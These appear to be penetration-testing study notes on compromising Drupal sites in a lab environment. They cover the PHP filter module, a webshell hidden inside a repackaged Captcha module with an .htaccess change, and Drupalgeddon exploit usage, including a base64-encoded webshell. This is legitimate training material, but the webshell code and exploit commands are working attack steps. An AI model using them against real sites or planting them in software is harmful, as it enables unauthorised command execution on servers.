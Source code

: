

#### Leveraging the PHP Filter Module

1. Enable PHP Filter Module
2. Create Basic Page
3. Add webshell to basic page
4. Set text format to PHP

After drupal 8 the php filter wont be installed natively so we need to add it ourselves

We can get the package and then upload it to modules
```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
Once downloaded go to `Administration` > `Reports` > `Available updates`.




#### Uploading backdoored modules

Get module
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```
extract module
```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```
create webshell
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
create .htaccess file
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
**Note:This is necessary as Drupal denies direct access to the /modules folder.

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.


#### Leveraging Known Vulnerabilities

[drupalgeddon](https://www.drupal.org/SA-CORE-2014-005)

basic usage
```shell-session
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

[drupalgeddon2](https://www.drupal.org/sa-core-2018-002)

create php webshell base64 encoded
```shell-session
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```
basic usage
```shell-session
python3 drupalgeddon2.py 
```

[drupalgeddon3](https://cvedetails.com/cve/CVE-2018-7602/)

obtain valid session cookie from admin login with burp

use metasploit to run exploit
![[Pasted image 20250421011002.png]]
